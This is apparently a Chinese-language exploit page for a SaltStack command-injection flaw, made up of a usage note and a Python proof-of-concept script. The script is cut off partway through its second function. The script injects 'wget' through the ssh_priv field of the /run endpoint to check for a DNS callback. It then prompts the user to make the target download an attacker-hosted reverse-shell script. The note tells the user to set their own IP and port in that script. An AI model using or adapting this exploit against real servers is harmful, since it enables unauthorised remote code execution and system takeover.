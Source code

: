 ## 漏洞利用POC

> [!NOTE]
>
> POC目录中 peiqi.sh文件 需要更改反弹ip,port,并上传到服务器让目标进行下载
>
> DNS有响应则代表可能有漏洞，便可以进行反弹shell

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: SaltStack Version < 2019.2.4 & < 3000.2                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.cn                                     \033[0m')
    print('+  \033[36mFile_addr   >>> http://xxx.xxx.xxx/cmd.sh                         \033[0m')
    print('+  \033[36mFile_name   >>> cmd.sh                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, dnslog):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget http://{}".format(dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget http://{} \033[0m".format(dnslog))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 请查看 Dnslog响应 \033[0m")
            while True:
                Chois = input("\033[35m是否反弹 Shell(Y/N) >>> \033[0m")
                if Chois == "Y" or Chois == "y":
                    File_addr = input("\033[35mFile_addr >>> \033[0m")
                    File_name = input("\033[35mFile_name >>> \033[0m")
                    POC_2(target_url, File_addr, File_name)
                else:
                    sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, File_addr, File_name):
    vuln_url = target_url + "/run"
```